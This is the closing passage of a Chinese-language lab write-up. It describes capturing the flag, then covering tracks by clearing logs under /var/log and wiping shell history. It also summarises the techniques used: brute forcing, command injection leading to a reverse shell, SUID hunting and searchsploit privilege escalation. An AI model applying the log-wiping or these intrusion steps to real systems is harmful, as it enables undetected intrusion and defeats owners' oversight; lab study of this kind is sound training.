

查看`flag`



# 清理痕迹

把`/var/log`下的一些日志文件清理即可，这里需要主要，网站不再是`apache2`的，而是`nginx`


然后把历史命令清理即可

# 总结

该靶场主要考察以下几点

1. 对于网站给出的一个表单，能否通过这个表单去进行模糊测试，以及弱口令的爆破，这里是以`burpsuite`进行爆破，所以这个工具要掌握好
2. 对于代码逻辑的分析，当然是经过测试后的分析，这里就是登录后的网站，是获取前端中的`value`来当作命令去执行，导致的反弹`shell`
3. 对于具有SUID权限的文件的寻找，以及一些备份文件的寻找
4. 对于`searchsploit`的使用，这个在常规的一些提权无用时，可以去收集信息来查看有无对应的漏洞版本，然后进行使用


